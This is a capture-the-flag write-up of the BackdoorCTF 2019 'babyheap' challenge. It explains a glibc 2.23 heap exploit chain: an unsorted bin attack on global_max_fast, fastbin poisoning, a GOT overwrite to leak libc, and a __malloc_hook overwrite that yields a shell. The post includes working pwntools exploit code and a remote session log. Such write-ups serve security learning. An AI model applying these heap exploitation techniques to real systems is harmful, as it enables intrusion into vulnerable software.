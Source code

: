 ```yaml
---
layout: post
title:  "BackdoorCTF 2019: babyheap"
date:   2019-10-27 23:30:01 +0800
categories: pwn
tags: BackdoorCTF
---
```


I played this CTF with 0x1 and got 6th place.

This was a Glibc 2.23 challenge with `global_max_fast` set to 0x10, meaning we have no access to the fastbin.

TL;DR:

1. Free a chunk into the unsorted bin
2. One byte brute force to overwrite the `bk` pointer of the free unsorted bin chunk to `&global_max_fast - 0x10`
3. Launch an unsorted bin attack to overwrite `global_max_fast` with the unsorted bin's address, giving us access to the fastbin.
4. Fastbin dup to get a chunk above the global array of chunks.
5. Overwrite index 0 of the global array of chunks to point to `free@got`.
6. Overwrite `free@got` with `printf@plt`.
7. Edit the chunk above the global array of chunks and set index 0 to point to `puts@got`.
8. Call `free` on index 0 to get `puts` libc leak.
9. Fastbin dup attack to overwrite `__malloc_hook` to one gadget and get shell.

### Challenge

>Just another babyheap challenge.
>
>[http://backdoor.static.beast.sdslabs.co/static/babyheap/babyheap](http://backdoor.static.beast.sdslabs.co/static/babyheap/babyheap)
>
>[http://backdoor.static.beast.sdslabs.co/static/babyheap/libc.so.6](http://backdoor.static.beast.sdslabs.co/static/babyheap/libc.so.6)
>
>`nc 51.158.118.84 17001`
>
>Flag format: CTF{...}
>
>Created by: [Nipun Gupta](https://backdoor.sdslabs.co/users/fs0ciety)
>
>No. of Correct Submissions: 8

### Solution

This challenge was very interesting. I've read writeups of similar challenges before but never done a challenge of this type, so this was a good learning experience for me.

#### Reverse Engineering

Running the binary shows us this:
```
----------DATA BANK----------
1) Add data
2) Edit data
3) Remove data
4) Exit
>> 
```

It looks very similar to babytcache, but without the ability to view data. It is also GLIBC 2.23. It also does not have PIE or Full RELRO enabled:
```sh
vagrant@ubuntu1604:/ctf/practice/backdoorctf/babyheap$ checksec babyheap
[*] '/ctf/practice/backdoorctf/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Looking at the binary now, the main function right at the beginning does the following:
```c
mallopt(1, 0);
```

If you look at the manpage of `mallopt`, you will see that this means that the binary is disabling the fastbin by setting `global_max_fast` to a value of 0x10. Since chunks must have a minimum size of 0x20 (with the metadata), the fastbin is impossible to use like this.

As for vulnerabilities, it is the exact same as babytcache except some constraints, so I will skip showing my interpretation of the pseudocode for each function.

1. The add function lets you add up to 12 chunks max throughout the process's lifetime.
2. The free function has a UAF. It also has a free limit of 8 frees.

#### Steps to solve

First, we must overwrite `global_max_fast` with some value that is not 0x10, so we can use the fastbins again. Since there is no easy way to get a leak, it will be almost impossible to launch a small bin unsafe unlink attack to overwrite anything useful.

Since we don't have a leak, the overwriting of `global_max_fast` required bruteforcing a single byte. If you add two chunks of size 0x30 and free the first one, you can compare the address of `global_max_fast` vs the address of the unsorted bin and see the following:
```c
pwndbg> unsortedbin
unsortedbin
all: 0x1c25000 —▸ 0x7f2e38f3bb78 (main_arena+88) ◂— 0x1c25000
pwndbg> p &global_max_fast 
$1 = (size_t *) 0x7f2e38f3d7f8 <global_max_fast>
```

You will notice that the least significant byte of `global_max_fast` is always `0xf8`, and the second least significant byte will constantly change. Everything else will be the same.

We can brute force the second byte and have a 1/8 chance of getting the address of `global_max_fast`.

I decided to launch an unsorted bin attack to overwrite `global_max_fast` with the address of the unsorted bin. If you are unfamiliar with the unsorted bin attack, you may refer to [this](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c).

Essentially, I chose a chunk of size 0x30 to perform the unsorted bin attack on. Since it will corrupt the unsorted bin, it will mean we can't malloc any chunks <= 0x30 in size anymore, which is fine for us.

Here is how the 1 byte bruteforce works:
```python
while True:
	p = start()
	add(0, 0x30, 'A'*0x30) # Used for unsorted bin attack
	add(1, 0x68, 'B'*0x68) # Used for fastbin dup

	free(0) # Send chunk A to the unsorted bin

	# Overwrite A's bk with bruteforced &global_max_fast - 0x10
	edit(0, '\x00'*8 + p16(0x27e8))

	try:
		# Launch the unsorted bin attack
		add(2, 0x30, 'C'*0x30)

		# If the unsorted bin attack successfully overwrote global_max_fast,
		# Then we can do a fastbin poisoning attack to get a chunk right above the
		# global data array
		#
		# If we successfully get the chunk there, overwrite idx 0 with free@got
		free(1)
		edit(1, p64(0x6020cd-0x10))
		add(3, 0x68, 'Z'*8)
		add(4, 0x68, 'Z'*0x53 + p64(free_got))
		if args.GDB:
			debug([])
		break
	except:
		# If it didn't work, close the process and try again
		p.close()
		continue
```

Initially we free the 0x30 chunk into the unsorted bin and overwrite the last byte with 0xe8, and the second last byte with one of the many valid bytes I found `&global_max_fast` had with gdb. Then, within a **try-except** block, we launch the unsorted bin attack and then immediately try to do the fastbin poisoning attack. If the unsorted bin attack succeeded, then the fastbin attack will work, otherwise it will go to the **except** block and restart.

Should the fastbin attack succeed, we pick this memory address because it looks like a valid chunk header for a 0x68 sized chunk:
```c
pwndbg> x/4gx 0x6020cd-0x10
0x6020bd:       0xfff7dd2540000000      0x000000000000007f
0x6020cd:       0x0000000000000000      0x0000000000000000
```

We then simply write enough bytes until we reach the global data array and overwrite index 0 to the address of `free@got`.

If all of this succeeds, we will be out of the while loop now. My plan was to overwrite `free` with `printf` and use that to leak a libc address. Before I do that though, I free another 0x68 sized chunk into the fastbin to prepare for the second fastbin poisoning attack. I then overwrite `free@got` with the address of `printf@plt`, and change index 0 to point to `puts@got` and attempt to free index 0. This will cause printf to be called with the address stored in index 0, which is actually `puts@got`, giving us a leak:
```python
free(3) # Prep for next fastbin poisoning attack
edit(0, p64(printf)) # Overwrite free with printf
edit(4, 'Z'*0x53 + p64(0x602020)) # Change idx 0 to puts@got
free(0) # printf(puts@got)

libc.address = u64(p.recv(6).ljust(8, '\x00')) - libc.sym['puts']
log.info('Libc base: ' + hex(libc.address))
```

Finally, we do the classic fastbin poisoning attack to get a chunk at `__malloc_hook-0x30+0xd` and overwrite `__malloc_hook` with a working one gadget and get a shell:
```python
edit(3, p64(libc.sym['__malloc_hook']-0x30+0xd))

add(5, 0x68, 'Z'*8)
add(6, 0x68, 'B'*0x13 + p64(libc.address+0xf1147))

p.sendlineafter('>> ', '1')
p.sendlineafter(':\n', '8')
p.sendlineafter(':\n', '104')

p.interactive()
```

It took quite a bit of time to work remotely due to the brute force, so I just cut out the brute force bit.
```sh
vagrant@ubuntu1604:/ctf/practice/backdoorctf/babyheap$ ./exploit.py REMOTE
[*] '/ctf/practice/backdoorctf/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/ctf/practice/backdoorctf/babyheap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
REMOTE PROCESS
[+] Opening connection to 51.158.118.84 on port 17001: Done
[*] Libc base: 0x7f9e95bcc000
[*] Switching to interactive mode
$ ls
Dockerfile
babyheap
babyheap.c
beast.toml
flag.txt
post-build.sh
public
setup.sh
$ cat flag.txt
CTF{REDACTEDREDACTEDREDACTED}
$ 
```